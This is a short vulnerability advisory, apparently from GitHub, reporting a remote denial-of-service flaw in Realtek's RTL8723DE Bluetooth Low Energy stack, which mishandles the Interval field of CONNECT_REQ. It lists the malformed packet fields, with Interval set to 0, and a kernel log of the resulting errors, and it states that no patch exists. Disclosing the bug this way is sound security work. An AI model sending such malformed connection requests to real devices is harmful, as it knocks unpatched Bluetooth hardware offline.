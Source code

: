 # Repository
https://www.realtek.com/en/component/zoo/category/rtl8723de-software

# Package
https://www.realtek.com/en/component/zoo/category/rtl8723de-software


# Impact
When realtek BLE protocol stack handles the device connection message CONNECT_REQ, the Interval field is not handled properly, and the attacker can launch a denial of service attack remotely

# Affect Versions
<=4.1

# Patched Versions
NULL

# POC

# Prove
`
Link Layer Data
  Access Address: 0x9a328370
  CRC Init: 0x179a9c
  Window Size: 2 (2.5 msec)
  Window Offset: 2 (2.5 msec)
  Interval: 0 (0 msec)
  Latency: 0
  Timeout: 50 (62.5 msec)
`

dmesg.log
`
[  584.475344] Bluetooth: Peer acked invalid packet
[  584.480585] Bluetooth: Peer acked invalid packet
[  584.501450] Bluetooth: Peer acked invalid packet
[  584.533039] Bluetooth: Peer acked invalid packet
[  584.564637] Bluetooth: Peer acked invalid packet
[  584.596220] Bluetooth: Peer acked invalid packet
[  584.627825] Bluetooth: Peer acked invalid packet
[  584.659400] Bluetooth: Peer acked invalid packet
[  584.690988] Bluetooth: Peer acked invalid packet
[  584.721535] Bluetooth: hu c6761cc0 retransmitting 2 pkts
[  584.722592] Bluetooth: Peer acked invalid packet
[  584.733497] Bluetooth: Peer acked invalid packet
[  584.739112] Bluetooth: Peer acked invalid packet
[  584.765247] Bluetooth: Peer acked invalid packet
[  584.796834] Bluetooth: Peer acked invalid packet
[  584.828433] Bluetooth: Peer acked invalid packet
[  584.860023] Bluetooth: Peer acked invalid packet
[  584.891611] Bluetooth: Peer acked invalid packet
[  584.923200] Bluetooth: Peer acked invalid packet
[  584.954778] Bluetooth: Peer acked invalid packet
[  584.986387] Bluetooth: Peer acked invalid packet
`


# Workarounds


# For more information
If you have any questions or comments about this advisory:
Email us at qulewei@baidu.com

# Acknowledgements
repoter :qulewei

# References

